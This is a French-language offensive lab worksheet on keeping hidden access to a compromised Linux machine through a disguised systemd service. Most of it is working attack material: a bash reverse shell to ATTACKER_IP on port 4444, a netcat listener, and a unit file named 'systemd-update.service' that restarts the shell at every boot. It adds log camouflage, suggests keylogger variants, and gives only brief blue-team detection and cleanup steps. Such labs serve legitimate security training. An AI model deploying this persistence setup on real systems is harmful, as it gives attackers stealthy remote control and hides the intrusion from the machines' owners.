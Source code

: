 # **TP Offensif – Persistance via systemd et services Linux**

---

## **Objectif pédagogique**

Comprendre comment un attaquant :

* Crée un service systemd personnalisé pour **persister** après redémarrage
* Masque ses activités via des noms légitimes (`systemd-update.service`)
* Déploie un reverse shell **camouflé comme un service système**
* Peut exécuter un keylogger ou un script espion à chaque démarrage

---

## **Contexte du TP**

Vous êtes dans un lab isolé. Vous avez obtenu un accès `root` sur une machine Linux via une faille. Votre objectif est de **maintenir un accès furtif et persistant** même après un redémarrage.

---

## **Étape 1 – Création d’un faux service `systemd` malveillant**

### 1.1 Créez un reverse shell (bash)

```bash
mkdir -p /opt/.malicious
nano /opt/.malicious/reverse.sh
```

Contenu :

```bash
#!/bin/bash
bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1
```

Remplacez `ATTACKER_IP` par l’IP de votre Kali Linux.
Ensuite :

```bash
chmod +x /opt/.malicious/reverse.sh
```

Côté attaquant :

```bash
nc -lvnp 4444
```

---

### 1.2 Création du service déguisé

```bash
nano /etc/systemd/system/systemd-update.service
```

Contenu :

```ini
[Unit]
Description=System Update Daemon
After=network.target

[Service]
Type=simple
ExecStart=/opt/.malicious/reverse.sh
Restart=always
RestartSec=10

[Install]
WantedBy=multi-user.target
```

---

### 1.3 Activation et camouflage

```bash
systemctl daemon-reload
systemctl enable systemd-update
systemctl start systemd-update
```

Le reverse shell se relancera automatiquement à chaque redémarrage, comme s’il s’agissait d’un vrai service système.

---

## **Étape 2 – Observation de la persistance**

Redémarrez la machine victime :

```bash
reboot
```

Sur la machine de l’attaquant (Kali), le shell revient automatiquement :

```
Connection from 192.168.1.X:xxxx
bash-5.1#
```

---

## **Étape 3 – Déguisement avancé (optionnel)**

Renommer les fichiers de logs :

```bash
touch /var/log/systemd-journal.log
```

Modifier le script pour logger dans un fichier apparemment légitime :

```bash
echo "shell actif : $(date)" >> /var/log/systemd-journal.log
```

---

## **Étape 4 – Nettoyage (à faire dans le TP final)**

Montrez comment un **analyste blue team** détecterait cette attaque :

```bash
systemctl list-units --type=service
systemctl cat systemd-update
```

Puis :

```bash
systemctl disable systemd-update
rm /etc/systemd/system/systemd-update.service
rm -rf /opt/.malicious/
```

---

## **Bonus – Variante avec keylogger ou espion**

Créer un service `usb-watcher.service` qui lit les événements `udev`, ou exécute un script Python qui écoute les touches (`pynput`), ou un enregistrement réseau avec `tcpdump`.

---

## **Évaluation attendue**

L’étudiant doit :

* Créer un service systemd malveillant
* L’activer pour qu’il s’exécute au démarrage
* Camoufler le service (nom, chemin)
* Démontrer que le service redonne un shell après reboot
* Montrer le code source, la configuration systemd et les effets en live
* Fournir un guide de suppression post-analyse

